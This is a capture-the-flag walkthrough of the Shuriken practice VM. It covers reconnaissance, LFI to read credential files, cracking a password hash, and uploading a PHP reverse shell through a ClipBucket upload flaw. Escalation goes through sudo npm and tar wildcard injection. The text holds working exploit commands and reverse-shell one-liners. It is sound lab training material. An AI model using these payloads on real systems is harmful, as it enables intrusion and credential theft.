




crazyeights@es-base:~$ nmap -PS 192.168.56.1-255
Nmap scan report for 192.168.56.129
Host is up (0.00022s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
80/tcp open http
8080/tcp filtered http-proxy
More Detailed Scan:
crazyeights@es-base:~$ nmap -A -p- 192.168.56.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-28 10:34 EST
Nmap scan report for 192.168.56.129
Host is up (0.00017s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Shuriken
8080/tcp filtered http-proxy
crazyeights@es-base:~$ dirb http://192.168.56.129
---- Scanning URL: http://192.168.56.129/ ----
==> DIRECTORY: http://192.168.56.129/css/
==> DIRECTORY: http://192.168.56.129/img/
+ http://192.168.56.129/index.php (CODE:200|SIZE:6021)
==> DIRECTORY: http://192.168.56.129/js/
==> DIRECTORY: http://192.168.56.129/secret/
+ http://192.168.56.129/server-status (CODE:403|SIZE:279)
There is image:
Nothing in the image itself. It is a hint about checking the JS scripts.
In index__7ed54732.js
t.p = 'http://broadcast.shuriken.local',
Added the following to /etc/hosts:
192.168.56.129 broadcast.shuriken.local
You get a authentication dialog when you try to visit the site:
So you should probably find credentials first.
In the other js file (index__d8338055.js"):
n.p = 'http://shuriken.local/index.php?referer=',
Try to add that to /etc/hosts instead:
192.168.56.129 shuriken.local
We can perform LFI with referer param:
We test the following and it appears in the page source
crazyeights@es-base:~$ curl http://shuriken.local/index.php?referer=../js/index__7ed54732.js
Getting the passwd file, you must use double slashes because single slashes (../) are removed.
http://shuriken.local/index.php?referer=..//..//..//..//etc/passwd
Find the password for the HTTP Authentication by checking for a htpasswd file:
crazyeights@es-base:~$ curl http://shuriken.local/index.php?referer=..//..//..//etc/apache2/.htpasswd
On the resulting page:
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
crazyeights@es-base:~$ john --wordlist=lists/rockyou.txt --rules shuriken_hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls (developers)
We now have credentials: developers:9972761drmfsls
Change the line back in the hosts file so you can log in
192.168.56.129 broadcast.shuriken.local
We can see it is running ClipBucket version 4
Using searchsploit we find the following:
ClipBucket < 4.0.0 - Release 4902 - Command I | php/webapps/44250.txt
It is vulnerable to CMD Injection, File Upload, and SQLI
Proof of concept:
-----------------
1. Unauthenticated OS Command Injection
Without having to authenticate, an attacker can exploit this vulnerability
by manipulating the "file_name" parameter during the file upload in the script
/api/file_uploader.php:
$ curl -F "Filedata=@pfile.jpg" -F "file_name=aa.php ||<<COMMAND HERE>>"
http://$HOST/api/file_uploader.php
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.
$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"
$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"
First start the listener
nc -lvp 1234crazyeights@es-base:~/tools$ curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=rshell.php" "http://broadcast.shuriken.local/actions/beats_uploader.php" -u developers:9972761drmfsls
creating file{"success":"yes","file_name":"16091743966af9ed","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
Go to the location of the uploaded file to run the script. The filename is randomly generated, and returned in the response from the server.
Now that we have a session as user www-data we can find user and root flags.
?>$ sudo -l
Matching Defaults entries for www-data on shuriken:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on shuriken:
(server-management) NOPASSWD: /usr/bin/npm
$
www-data can run npm with the permissions of the user server-management without a password. Use npm script functionality to get a shell.
$ cd /tmp
$ npm init
[SNIP]
{
"name": "tmp",
"version": "1.0.0",
"description": "",
"main": "index.js",
"scripts": {
"test": "echo \"Error: no test specified\" && exit 1"
},
"author": "",
"license": "ISC"
}
[SNIP]
echo $(cat package.json | grep -v "}" | grep -v auth | grep -v lice; echo ',"shell": "/bin/bash"},'; cat package.json | grep 'auth\|lice'; echo "}") > package.json
$ cat package.json
{ "name": "tmp", "version": "1.0.0", "description": "", "main": "index.js", "scripts": { "test": "echo \"Error: no test specified\" && exit 1" ,"shell": "/bin/bash"}, "author": "", "license": "ISC" }
$ sudo -u server-management npm install
$ sudo -u server-management npm run-script shell
> tmp@1.0.0 shell /tmp
> /bin/bash
id
uid=1000(server-management) gid=1000(server-management) groups=1000(server-management),24(cdrom),30(dip),46(plugdev),116(lpadmin),122(sambashare)
ls /home/server-management
Desktop
Documents
Downloads
Music
Pictures
Public
Shuriken
Templates
Videos
user.txt
cat /home/server-management/user.txt
67528b07b382dfaa490f4dffc57dcdc0
Noticed that there were these reports in Documents, thought there might be a job to back them up:
/home/server-management/Documents:
Daily Job Progress Report Format.pdf
Employee Search Progress Report.pdf
Finding the job:
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
*/2 * * * * root /var/opt/backupsrv.sh
[SNIP]
Notice the use of wildcards. That can be used to execute a script with checkpoint-action
See: https://gtfobins.github.io/gtfobins/tar/
cat /var/opt/backupsrv.sh
#!/bin/bash
# Where to backup to.
dest="/var/backups"
# What to backup.
cd /home/server-management/Documents
backup_files="*"
# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"
# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo
# Backup the files using tar.
tar czf $dest/$archive_file $backup_files
# Print end status message.
echo
echo "Backup finished"
date
# Long listing of files in $dest to check file sizes.
ls -lh $dest
Create the files:
echo "bash -i >& /dev/tcp/192.168.56.1/9999 0>&1" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
ls
--checkpoint-action=exec=sh shell.sh
--checkpoint=1
Daily Job Progress Report Format.pdf
Employee Search Progress Report.pdf
shell.sh
The bash reverse shell didn't work, switched to python reverse shell:
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.1\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > shell.sh
Start the listener
crazyeights@es-base:~$ nc -lvp 9999
listening on [any] 9999 ...
Waiting two minutes....
crazyeights@es-base:~$ nc -lvp 9999
listening on [any] 9999 ...
connect to [192.168.56.1] from broadcast.shuriken.local [192.168.56.129] 51784
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
d0f9655a4454ac54e3002265d40b2edd